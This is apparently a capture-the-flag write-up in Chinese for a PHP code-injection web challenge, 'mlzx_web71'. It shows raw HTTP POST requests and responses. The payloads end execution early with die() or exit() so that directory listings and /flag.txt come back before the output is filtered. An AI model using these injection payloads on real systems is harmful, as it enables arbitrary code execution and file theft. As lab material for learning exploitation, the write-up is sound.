


# mlzx_web71

原地址：[GZCTF-challenges/mlzx/mlzx_web71](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web71)

需要在内容被替换前就结束程序，即 **`提前送出缓冲区或终止程序`**

获取 flag 位置

```http
POST / HTTP/1.1
Host: 192.168.128.131:32811
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=var_export(scandir('/'));die();
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 08:20:35 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Content-Length: 340

array ( 0 => '.', 1 => '..', 2 => '.dockerenv', 3 => 'bin', 4 => 'boot', 5 =>
'dev', 6 => 'entrypoint.sh', 7 => 'etc', 8 => 'flag.txt', 9 => 'home', 10 =>
'lib', 11 => 'lib64', 12 => 'media', 13 => 'mnt', 14 => 'opt', 15 => 'proc', 16
=> 'root', 17 => 'run', 18 => 'sbin', 19 => 'srv', 20 => 'sys', 21 => 'tmp', 22
=> 'usr', 23 => 'var', )
```



获取 flag

```http
POST / HTTP/1.1
Host: 192.168.128.131:32811
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=include('/flag.txt');exit();
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 08:21:33 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Content-Type: text/html; charset=UTF-8
Content-Length: 30

flag{GZCTF_dynamic_flag_test}
```

